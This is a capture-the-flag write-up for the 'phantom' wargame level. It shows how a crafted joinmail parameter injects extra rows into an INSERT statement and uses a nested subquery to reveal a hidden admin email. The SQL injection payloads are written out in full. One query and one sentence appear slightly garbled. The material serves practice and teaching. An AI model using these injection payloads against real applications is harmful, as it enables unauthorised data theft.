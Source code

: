 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 29
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/8ce4405e-0c17-402b-a401-b67dc208a082)

We are provided with the SQL query:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')
```

This time, the table is updated based upon the parameter value that we provide.
If the `no=1`, the email will be displayed as `**************`.

In order to solve this challenge, we need to insert multiple records at the same time.
This can be done by listing multiple records in parentheses after `VALUES`, as follows:

```sql
INSERT INTO [table_name] VALUES(1, 1, 1), (2, 2, 2), (3, 3, 3);
```

If we provide the following URI parameter:

```
?joinmail=test'), (0, '[Public IP address]', (SELECT 1 WHERE 1=1)) -- -
```

You can find your public IP address from [here](https://www.whatismyip.com/).

The resultant query becomes:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','test'), (0, '[Public IP address]', (SELECT 1 WHERE 1=1)) -- -')
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/dee7cf90-3667-4e1f-8a0a-4e6229687d00)

As we can see, the two records have been inserted into the table.

In order to retrieve the email however, we will have to store it into a variable.

```
?joinmail=test'), (0, '[Public IP address]', (SELECT * FROM (SELECT email FROM prob_phantom WHERE no=1) AS temp)) -- -
```

The resultant query becomes:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','test'), (0, '[Public IP address]', (SELECT * FROM (SELECT email FROM prob_phantom WHERE no=1) AS temp)) -- -')
```

The above query will store

![3](https://github.com/Kunull/Write-ups/assets/110326359/335cb5bf-340f-4f1a-858d-6b2d4ecc55b4)

```
admin_secure_email@rubiya.kr
```

If we provide the following URI:

```
?email=admin_secure_email@rubiya.kr
```

The resultant query becomes:

```sql
SELECT email FROM prob_phantom WHERE no=1 AND email='?email=admin_secure_email@rubiya.kr'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/b1560a1f-4a62-453e-ac4f-1c1a0be9a911)

